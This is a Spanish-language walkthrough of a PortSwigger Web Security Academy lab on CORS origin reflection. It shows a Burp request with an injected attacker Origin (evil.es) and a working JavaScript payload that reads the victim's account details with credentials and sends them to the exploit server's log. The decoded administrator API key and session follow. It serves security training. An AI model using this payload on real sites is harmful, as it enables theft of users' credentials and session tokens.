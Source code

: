 ```yaml
---
icon: arrow-progress
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PortSwigger - CORS vulnerability with basic origin reflection

Primero veremos una pagina web en la que tendremos que loguearnos con las credenciales que nos proporcionan:

```
User: wiener
Pass: peter
```

Una vez dentro veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora si nos vamos al `HTTP History` de `BurpSuite` veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En esta parte de aqui, si nos vamos a la respuesta del servidor, veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que está esta linea:

```
Access-Control-Allow-Credentials: true
```

Por lo que ya nos esta dando una pista de que se puede inyectar un `Origin:` en la cabecera de la peticion, vamos a probarlo haciendo lo siguiente, pero antes lo enviaremos al `Repeater` para hacer nuestras pruebas con `Ctrl+R`:

```
GET /accountDetails HTTP/2
Host: 0ac200ae03914ae783adeb10005b0068.web-security-academy.net
Cookie: session=cqk6PNNi2yuPlScrp8epStylUJ6NSM5Q
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Origin: http://evil.es

```

Tiene que quedar algo asi como se muestra en lo anterior, ahora si lo enviamos y vemos la respuesta del servidor, veremos algo asi:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando, por que estamos viendo lo siguiente:

```
Access-Control-Allow-Origin: http://evil.es
Access-Control-Allow-Credentials: true
```

Por lo que esta confiando en el link que le estamos inyectando en el `Origin`, ahora vamos a darle al boton llamado `Go to exploit server` para emular nuestro servidor atacante y realizar el `exploit` contra el usuario victima que este logueado, veremos este apartado:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En la parte de `Body` tendremos que meter el `payload` para poder capturar la informacion del usuario y obtener el `TOKEN` del mismo, vamos a poner lo siguiente:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','<PETICION_VULNERABLE>',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Ahora vamos a obtener la `peticion` vulnerable donde llevamos al `repeater` antes con `BurpSuite` copiandola, para asi insertarla ahi en ese `payload` y poder capturar el `TOKEN` del usuario que este logueado.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Y veremos algo asi:

```
URL = https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/accountDetails
```

Esto lo meteremos en nuestro `payload` y tendremos que tener algo asi:

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Ahora para probar el `exploit` le daremos a `Store` y despues `Deliver exploit to victim` y nos vamos a los `logs` dandole a `Access log`, con esto veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

Veremos que hay un `/log?key=` que tiene el nombre de `administrador` por lo que vemos ha funcionado, vamos a obtener el valor entero que sera este:

```
/log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk%22,%20%20%22sessions%22:%20[%20%20%20%20%22jyoMkcVXMOZ22RmElbHuQBqps91se3Rf%22%20%20]}
```

Ahora lo decodificaremos y veremos lo siguiente:

```
{  "username": "administrator",  "email": "",  "apikey": "cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk",  "sessions": [    "jyoMkcVXMOZ22RmElbHuQBqps91se3Rf"  ]}
```

Vemos que el `APIKey` del usuario `administrador` es:

```
cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk
```

Ahora para validarlo le daremos a `Submit Solution` e introducimos ese `APIKey` con esto ya habremos terminado el `LAB`.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
